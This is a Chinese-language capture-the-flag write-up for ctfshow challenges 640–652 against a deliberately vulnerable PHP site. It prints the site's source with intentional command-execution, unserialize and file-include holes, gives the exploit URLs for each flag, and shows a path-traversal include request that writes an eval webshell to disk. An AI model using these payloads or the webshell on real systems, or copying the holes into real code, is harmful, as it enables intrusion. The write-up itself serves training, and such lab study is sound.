https://gylq.github.io/posts/117.html

## flag_640 首页

ctfshow{060ae7a27d203604baeb125f939570ef} 


## flag_641 回包

ctfshow{affac61c787a82cc396585bea8ecf2dc}



## flag_642*


## flag_643*

ctfshow{616cd5fc37968fc20810b2db30152717}  


## flag_644

ctfshow{2bb9f2183f102f6f2aedbea4788f9f1d}   /system36d 前台JS搜索flag





## flag_645

ctfshow{28b00f799c2e059bafaa1d6bda138d89}






得到643

## flag_646

ctfshow{5526710eb3ed7b4742232d6d6f9ee3a9}

远程更新存在文件包包含



包含文件`init`得到flag



提示了util/common.php有漏洞

> 通过命令执行pwd指令可以看到当前物理路径

## flag_647

ctfshow{e6ad8304cdb562971999b476d8922219}

读取上一步的漏洞读取users.php

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-07-26 10:25:59
# @Last Modified by:   h1xa
# @Last Modified time: 2021-08-01 01:52:58
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);
session_start();
include 'init.php';

$a=$_GET['action'];


$data = file_get_contents(DB_PATH);
$ret = '';
switch ($a) {
	case 'list':
		$ret = getUsers($data,intval($_GET['page']),intval($_GET['limit']));
		break;
	case 'add':
		$ret = addUser($data,$_GET['username'],$_GET['password']);
		break;
	case 'del':
		$ret = delUser($data,$_GET['username']);
		break;
	case 'update':
		$ret = updateUser($data,$_GET['username'],$_GET['password']);
		break;
	case 'backup':
		backupUsers();
		break;
	case 'upload':
		$ret = recoveryUsers();
		break;
	case 'phpInfo':
		$ret = phpInfoTest();
		break;
	case 'netTest':
		$ret = netTest($_GET['cmd']);
		break;
	case 'remoteUpdate':
		$ret = remoteUpdate($_GET['auth'],$_GET['update_address']);
		break;
	case 'authKeyValidate':
		$ret = authKeyValidate($_GET['auth']);
		break;
	case 'evilString':
		evilString($_GET['m']);
		break;
	case 'evilNumber':
		evilNumber($_GET['m'],$_GET['key']);
		break;
	case 'evilFunction':
		evilFunction($_GET['m'],$_GET['key']);
		break;
	case 'evilArray':
		evilArray($_GET['m'],$_GET['key']);
		break;
	case 'evilClass':
		evilClass($_GET['m'],$_GET['key']);
		break;
	default:
		$ret = json_encode(array(
		'code'=>0,
		'message'=>'\u6570\u636e\u83b7\u53d6\u5931\u8d25',
		));
		break;
}

echo $ret;


function getUsers($data,$page=1,$limit=10){
	$ret = array(
		'code'=>0,
		'message'=>'\u6570\u636e\u83b7\u53d6\u6210\u529f',
		'data'=>array()
	);

	
	$isadmin = '\u5426';
	$pass = '';
	$content='\u65e0';

	$users = explode('|', $data);
	array_pop($users);
	$index = 1;

	foreach ($users as $u) {
		if(explode('@', $u)[0]=='admin'){
			$isadmin = '\u662f';
			$pass = 'flag\u5c31\u662f\u7ba1\u7406\u5458\u7684\u5bc6\u7801\uff0c\u4e0d\u8fc7\u6211\u9690\u85cf\u4e86';
			$content = '\u5220\u9664\u6b64\u6761\u8bb0\u5f55\u540eflag\u5c31\u4f1a\u6d88\u5931';
		}else{
			$pass = explode('@', $u)[1];
		}
		array_push($ret['data'], array(
			'id'=>$index,
			'username'=>explode('@', $u)[0],
			'password'=>$pass,
			'isAdmin'=>$isadmin,
			'content'=>$content
		));
		$index +=1;
	}
	$ret['count']=$index;
	$start = ($page-1)*$limit;
	$ret['data']=array_slice($ret['data'], $start,$limit,true);

	return json_encode($ret);

}

function addUser($data,$username,$password){
	$ret = array(
		'code'=>0,
		'message'=>'\u6dfb\u52a0\u6210\u529f'
	);
	if(existsUser($data,$username)==0){
		$s = $data.$username.'@'.$password.'|';
		file_put_contents(DB_PATH, $s);

	}else{
		$ret['code']=-1;
		$ret['message']='\u7528\u6237\u5df2\u5b58\u5728';
	}

	return json_encode($ret);
}

function updateUser($data,$username,$password){
	$ret = array(
		'code'=>0,
		'message'=>'\u66f4\u65b0\u6210\u529f'
	);
	if(existsUser($data,$username)>0 && $username!='admin'){
		$s = preg_replace('/'.$username.'@[0-9a-zA-Z]+\\|/', $username.'@'.$password.'|', $data);
		file_put_contents(DB_PATH, $s);

	}else{
		$ret['code']=-1;
		$ret['message']='\u7528\u6237\u4e0d\u5b58\u5728\u6216\u65e0\u6743\u66f4\u65b0';
	}

	return json_encode($ret);
}

function delUser($data,$username){
	$ret = array(
		'code'=>0,
		'message'=>'\u5220\u9664\u6210\u529f'
	);
	if(existsUser($data,$username)>0 && $username!='admin'){
		$s = preg_replace('/'.$username.'@[0-9a-zA-Z]+\\|/', '', $data);
		file_put_contents(DB_PATH, $s);

	}else{
		$ret['code']=-1;
		$ret['message']='\u7528\u6237\u4e0d\u5b58\u5728\u6216\u65e0\u6743\u5220\u9664';
	}

	return json_encode($ret);

}

function existsUser($data,$username){
	return preg_match('/'.$username.'@[0-9a-zA-Z]+\\|/', $data);
}

function backupUsers(){
	$file_name = DB_PATH;
	if (! file_exists ($file_name )) {    
	    header('HTTP/1.1 404 NOT FOUND');  
	} else {    
	    $file = fopen ($file_name, "rb" ); 
	    Header ( "Content-type: application/octet-stream" ); 
	    Header ( "Accept-Ranges: bytes" );  
	    Header ( "Accept-Length: " . filesize ($file_name));  
	    Header ( "Content-Disposition: attachment; filename=backup.dat");     
	    echo str_replace(FLAG645, 'flag\u5c31\u5728\u8fd9\u91cc\uff0c\u53ef\u60dc\u4e0d\u80fd\u7ed9\u4f60', fread ( $file, filesize ($file_name)));    
	    fclose ( $file );    
	    exit ();    
	}
}

function getArray($total, $times, $min, $max)
    {
        $data = array();
        if ($min * $times > $total) {
            return array();
        }
        if ($max * $times < $total) {
            return array();
        }
        while ($times >= 1) {
            $times--;
            $kmix = max($min, $total - $times * $max);
            $kmax = min($max, $total - $times * $min);
            $kAvg = $total / ($times + 1);
            $kDis = min($kAvg - $kmix, $kmax - $kAvg);
            $r = ((float)(rand(1, 10000) / 10000) - 0.5) * $kDis * 2;
            $k = round($kAvg + $r);
            $total -= $k;
            $data[] = $k;
        }
        return $data;
 }


function recoveryUsers(){
	$ret = array(
		'code'=>0,
		'message'=>'\u6062\u590d\u6210\u529f'
	);
	if(isset($_FILES['file']) && $_FILES['file']['size']<1024*1024){
		$file_name= $_FILES['file']['tmp_name'];
		$result = move_uploaded_file($file_name, DB_PATH);
		if($result===false){
			$ret['message']='\u6570\u636e\u6062\u590d\u5931\u8d25 file_name'.$file_name.' DB_PATH='.DB_PATH;
		}

	}else{
		$ret['message']='\u6570\u636e\u6062\u590d\u5931\u8d25';
	}

	return json_encode($ret);
}

function phpInfoTest(){
	return phpinfo();

}

function authKeyValidate($auth){
	$ret = array(
		'code'=>0,
		'message'=>$auth==substr(FLAG645, 8)?'\u9a8c\u8bc1\u6210\u529f':'\u9a8c\u8bc1\u5931\u8d25',
		'status'=>$auth==substr(FLAG645, 8)?'0':'-1'
	);
	return json_encode($ret);
}

function remoteUpdate($auth,$address){
	$ret = array(
		'code'=>0,
		'message'=>'\u66f4\u65b0\u5931\u8d25'
	);

	if($auth!==substr(FLAG645, 8)){
		$ret['message']='\u6743\u9650key\u9a8c\u8bc1\u5931\u8d25';
		return json_encode($ret);
	}else{
		$content = file_get_contents($address);
		$ret['message']=($content!==false?$content:'\u5730\u5740\u4e0d\u53ef\u8fbe');
	}

	return json_encode($ret);


}

function evilString($m){
	$key = '372619038';
	$content = call_user_func($m);
	if(stripos($content, $key)!==FALSE){
		echo shell_exec('cat /FLAG/FLAG647');
	}else{
		echo 'you are not 372619038?';
	}

}

function evilClass($m,$k){
	class ctfshow{
		public $m;
		public function construct($m){
			$this->$m=$m;
		}
	}

	$ctfshow=new ctfshow($m);
	$ctfshow->$m=$m;
	if($ctfshow->$m==$m && $k==shell_exec('cat /FLAG/FLAG647')){
		echo shell_exec('cat /FLAG/FLAG648');
	}else{
		echo 'mmmmm?';
	}

}

function evilNumber($m,$k){
	$number = getArray(1000,20,10,999);
	if($number[$m]==$m && $k==shell_exec('cat /FLAG/FLAG648')){
		echo shell_exec('cat /FLAG/FLAG649');
	}else{
		echo 'number is right?';
	}
}

function evilFunction($m,$k){
	$key = 'ffffffff';
	$content = call_user_func($m);
	if(stripos($content, $key)!==FALSE && $k==shell_exec('cat /FLAG/FLAG649')){
		echo shell_exec('cat /FLAG/FLAG650');
	}else{
		echo 'you are not ffffffff?';
	}
}

function evilArray($m,$k){
	$arrays=unserialize($m);
	if($arrays!==false){
		if(array_key_exists('username', $arrays) && in_array('ctfshow', get_object_vars($arrays)) &&  $k==shell_exec('cat /FLAG/FLAG650')){
			echo shell_exec('cat /FLAG/FLAG651');
		}else{
			echo 'array?';
		}
	}
}

function netTest($cmd){
	$ret = array(
		'code'=>0,
		'message'=>'\u547d\u4ee4\u6267\u884c\u5931\u8d25'
	);

	if(preg_match('/^[A-Za-z]+$/', $cmd)){
		$res = shell_exec($cmd);
		stripos(PHP_OS,'WIN')!==FALSE?$ret['message']=iconv("GBK", "UTF-8", $res):$ret['message']=$res;
	}
	
	return json_encode($ret);
}
```

搜索647，找到如下代码，及当调用

```php
function evilString($m){
	$key = '372619038';
	$content = call_user_func($m);
	if(stripos($content, $key)!==FALSE){
		echo shell_exec('cat /FLAG/FLAG647');
	}else{
		echo 'you are not 372619038?';
	}
}
```


/users.php?action=evilString&m=get_defined_constants



## flag_648

ctfshow{af5b5e411813eafd8dc2311df30b394e}

搜索647，找到如下代码，及当调用

```php
function evilClass($m,$k){
	class ctfshow{
		public $m;
		public function construct($m){
			$this->$m=$m;
		}
	}

	$ctfshow=new ctfshow($m);
	$ctfshow->$m=$m;
	if($ctfshow->$m==$m && $k==shell_exec('cat /FLAG/FLAG647')){
		echo shell_exec('cat /FLAG/FLAG648');
	}else{
		echo 'mmmmm?';
	}

}
```

/users.php?action=evilNumber&m=&key=flag_648=ctfshow{af5b5e411813eafd8dc2311df30b394e}



## flag_649

ctfshow{9ad80fcc305b58afbb3a0c2097ac40ef}

```php
function evilNumber($m,$k){
	$number = getArray(1000,20,10,999);
	if($number[$m]==$m && $k==shell_exec('cat /FLAG/FLAG648')){
		echo shell_exec('cat /FLAG/FLAG649');
	}else{
		echo 'number is right?';
	}
}
```

/users.php?action=evilClass&m[]=1&key=flag_647=ctfshow{e6ad8304cdb562971999b476d8922219}



## flag_650

ctfshow{5eae22d9973a16a0d37c9854504b3029}

```php
function evilFunction($m,$k){
	$key = 'ffffffff';
	$content = call_user_func($m);
	if(stripos($content, $key)!==FALSE && $k==shell_exec('cat /FLAG/FLAG649')){
		echo shell_exec('cat /FLAG/FLAG650');
	}else{
		echo 'you are not ffffffff?';
	}
}
```

/users.php?action=evilFunction&m=get_defined_constants&key=flag_649=ctfshow{9ad80fcc305b58afbb3a0c2097ac40ef}



## flag_651

ctfshow{a4c64b86d754b3b132a138e3e0adcaa6}

```php
function evilArray($m,$k){
	$arrays=unserialize($m);
	if($arrays!==false){
		if(array_key_exists('username', $arrays) && in_array('ctfshow', get_object_vars($arrays)) &&  $k==shell_exec('cat /FLAG/FLAG650')){
			echo shell_exec('cat /FLAG/FLAG651');
		}else{
			echo 'array?';
		}
	}
}
```

/users.php?action=evilArray&m=O:8:"stdClass":1:{s:8:"username";s:7:"ctfshow";}&key=flag_650=ctfshow{5eae22d9973a16a0d37c9854504b3029}



## 上传Webshell

### 查看util common.php源码

在flag_647中提示了此文件有漏洞

```php
<?php

include 'dbutil.php';
if($_GET['k']!==shell_exec('cat /FLAG/FLAG651')){
    die('651flag\u672a\u62ff\u5230');
}
if(isset($_POST['file']) && file_exists($_POST['file'])){
    if(db::get_key()==$_POST['key']){
        include __DIR__.DIRECTORY_SEPARATOR.$_POST['file'];
    }
}
```

### 获取key

需要在数据库中找到，需要sql注入

通过文件读取漏洞读取`page.php`

```php
<?php
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-07-25 16:22:25
# @Last Modified by:   h1xa
# @Last Modified time: 2021-07-25 16:22:25
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
error_reporting(0);
include __DIR__.DIRECTORY_SEPARATOR.'system36d/util/dbutil.php';
$id = isset($_GET['id'])?$_GET['id']:'1';
//\u8f6c\u4e49' " \\ \u6765\u5b9e\u73b0\u9632\u6ce8\u5165
$id = addslashes($id);
$name = db::get_username($id);
?>
<!DOCTYPE html>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>\u6b22\u8fce<?=$name;?>,\u5f00\u542f\u4f60\u7684ctfshow GAME\u5427</title>
  <link rel='stylesheet' href='/static/css/page.css'>
<link rel='stylesheet' href='https://fonts.googleapis.com/css?family=Montserrat&amp;display=swap"rel="stylesheet'><link rel="stylesheet" href="/static/css/page_style.css">
</head>
<body>
<!-- partial:index.partial.html -->
<div class="app">
<div class="cardList">
<button class="cardList__btn btn btn--left">
<div class="icon">
<svg>
<use xlink:href="#arrow-left"></use>
</svg>
</div>
</button>
<div class="cards__wrapper">
<div class="card current--card">
<div class="card__image">

</div>
</div>
<div class="card next--card">
<div class="card__image">

</div>
</div>
<div class="card previous--card">
<div class="card__image">

</div>
</div>
</div>
<button class="cardList__btn btn btn--right">
<div class="icon">
<svg>
<use xlink:href="#arrow-right"></use>
</svg>
</div>
</button>
</div>
<div class="infoList">
<div class="info__wrapper">
<div class="info current--info">
<h1 class="text name">\u6311\u6218</h1>
<h4 class="text location">\u6311\u6218\u6c38\u4e0d\u505c\u6b62</h4>
<p class="text description">Adventure is never far away</p>
</div>
<div class="info next--info">
<h1 class="text name">\u52e4\u594b</h1>
<h4 class="text location">\u6211\u6bcf\u5929\u90fd\u5728\u52aa\u529b\u5de5\u4f5c\uff0c\u4e3a\u7684\u662f\u80fd\u591f\u4f7f\u6240\u6709\u7231\u6211\u7684\u4eba\u4ee5\u6211\u4e3a\u8363\uff01</h4>
<p class="text description">I work hard everyday so that all who love me will be proud of me!</p>
</div>
<div class="info previous--info">
<h1 class="text name">\u575a\u6301</h1>
<h4 class="text location">\u4e0d\u79ef\u8dec\u6b65\uff0c\u65e0\u4ee5\u81f3\u5343\u91cc</h4>
<p class="text description">Let your dreams come true</p>
</div>
</div>
</div>
<div class="app__bg">
<div class="app__bg__image current--image">

</div>
<div class="app__bg__image next--image">

</div>
<div class="app__bg__image previous--image">

</div>
</div>
</div>
<div class="loading__wrapper">
<div class="loader--text">Loading...</div>
<div class="loader">
<span></span>
</div>
</div>
<svg class="icons" style="display: none;">
<symbol id="arrow-left" xmlns='http://www.w3.org/2000/svg' viewBox='0 0 512 512'>
<polyline points='328 112 184 256 328 400'
 style='fill:none;stroke:#fff;stroke-linecap:round;stroke-linejoin:round;stroke-width:48px' />
</symbol>
<symbol id="arrow-right" xmlns='http://www.w3.org/2000/svg' viewBox='0 0 512 512'>
<polyline points='184 112 328 256 184 400'
 style='fill:none;stroke:#fff;stroke-linecap:round;stroke-linejoin:round;stroke-width:48px' />
</symbol>
</svg>
<!-- partial -->
  <script src='/static/js/imagesloaded.pkgd.min.js'></script>
<script src='/static/js/gsap.min.js'></script>
<script  src="/static/js/script.js"></script>
</body>
</html>
```

其存在id注入，sqlmap一把梭，得到key



### 获取file位置

db/data_you_never_know.db  该文件为存放用户信息的数据文件，通过数据还原上传的问题在此位置，绝对路径为/var/www/html/system36d/db/data_you_never_know.db

### 上传shell

在备份文件恢复出上传一句话木马，密码为1



再利用`common.php`中的包含函数执行

```
/system36d/util/common.php?k=flag_651=ctfshow{a4c64b86d754b3b132a138e3e0adcaa6}

key=key_is_here_you_know&file=../../../../../../../../../../../../var/www/html/system36d/db/data_you_never_know.db&1=file_put_contents('../../../../../../../../..//var/www/html/system36d/2.php', '<?php eval($_POST[1]);?>');
```






## flag_652

ctfshow{4b37ab4b6504d43ea0de9a688f0e3ffa}    数据库  ctfshow_secret

获取db链接内容



链接数据库

